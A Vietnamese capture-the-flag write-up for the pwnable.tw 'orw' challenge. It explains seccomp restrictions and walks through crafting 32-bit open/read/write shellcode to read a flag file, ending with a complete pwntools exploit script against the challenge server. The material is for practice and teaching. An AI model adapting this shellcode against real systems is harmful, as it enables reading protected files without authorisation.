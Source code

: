 # Seccomp
- Lớp bảo vệ `seccomp` với tác dụng hạn chế lại những `syscall` mà ta có thể sử dụng cho `shellcode` của chúng ta và ta có thể check xem `chall` đấy có bật `seccomp` hay không bằng công cụ `seccomp-tools`.
- Hôm nay ta sẽ thực hành luôn bằng bài trên `pwwable.tw`.
## Thực Hành
### 1. Source
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### 2. Hướng Giải
- Bước đầu ta sẽ check file bằng `seccomp-tools` nhaa:
    ![Alt text](image.png)
    - ta sẽ tận dụng những `syscall` trên để hoàn thành bài này.
    ![Alt text](image-1.png)
    - chall cũng đã hướng dẫn chúng ta try cập thư mục như hình để có thể thu đc flag
    **==> Lưu ý:** với file `32-bit` như chall này thì khi kết thúc 1 `syscall` ta sẽ xài `int 0x80` thay vì `syscall` như file `64-bit`.
    **ví dụ:** ![Alt text](image-2.png)
- Vậy thì ta chỉ cần viết `shellcode` với các `syscall` sau:
    - open : truy cập vào đường dẫn `/home/orw/flag`.
    - read : đọc flag trong file.
    - write hay stdout : in ra flag.
- Trước khi viết source code thì ta có 1 vấn đề phải giải quyết:
    ![Alt text](image-3.png)
    - khi nhập thử thì ta có thể thấy ta đã bị `SIGSEGV` , đối với chall này do khi chạy local ở địa chỉ `0x804a060` chỉ cho read và write thôi chứ không cho phép ta execute nhưng mà trên sever thì lại cho phép vì thế ta phải thay đổi quyền của nó trước khi mà  `orw_seccomp`
    thực thi.
    ![Alt text](image-4.png)
    - ta sễ nhập lệnh sauu `call (int)mprotect(0x804a000,0x1000,7)` làm sao cho địa chỉ phải được căn chỉnh 3 ký tự cuối phải là `000`.
    ![Alt text](image-5.png)
    - sau khi chạy thử thì địa chỉ đó đã được thay đỏi quyền và đc cho phép execute.
- Sau đấy ta chỉ cần viết `shellcode` nối lên sever và thu flag thôi :Đ và source code như sau:
    ![![Alt text](image-7.png)](image-6.png)
- **==> Lưu ý:** ta có thể check các arg của các `syscall` trên web https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit
- Giải thích: 
    - ![Alt text](image-8.png)
    - Đây là chuỗi `/home/orw/flag` về dạng số.
    - Và đây là cách chuyển đổi ![Alt text](image-9.png)
    - ![Alt text](image-10.png)
    - còn đây là `open syscall`: với eax là mã = 5 bạn có thể check trên link mình đã gửi ,
    ebx là đường dẫn vì, `shellcode` ta nhập vào `stack` bằng `read` nên ta sẽ set cho ebx = esp , còn 2 arg ta sẽ set NULL.
    - ![Alt text](image-11.png)\
    - đây là `read syscall` : khi thực hiện `open` nó sẽ trả file ở eax cho nên ta sẽ set ebx = eax , ecx sẽ là nơi ta nhập  = esp , edx là số size mà có thể đọc ta sẽ set đại là 0x100, eax sẽ là mã của `read`.
    ![Alt text](image-12.png)
    - và cuối cùng là `write syscall`: với ebx là `stdout` mã cấp quyển cho `write` in ra dữ liệu , còn eax là mã của `write`.
- Sau tất cả chỉ cần nối lên sever và chạy source là thu đc flag thôi.
![Alt text](image-13.png)
- Và thành công rồi `shellcode` của chúng ta đã đúng.
### 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('orw', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('chall.pwnable.tw', 10001)
else:
        p = process(exe.path)

GDB()
shellcode = asm(
        '''
        push 26465
        push 1818636151
        push 1919889253
        push 1836017711
        mov eax, 5
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80
        
        mov ebx, eax
        mov ecx, esp
        mov edx, 0x100
        mov eax, 3
        int 0x80
        
        mov ebx, 1
        mov eax, 4
        int 0x80
        
        ''', arch='i386'
)

sla(b'shellcode:', shellcode)
p.interactive()
```
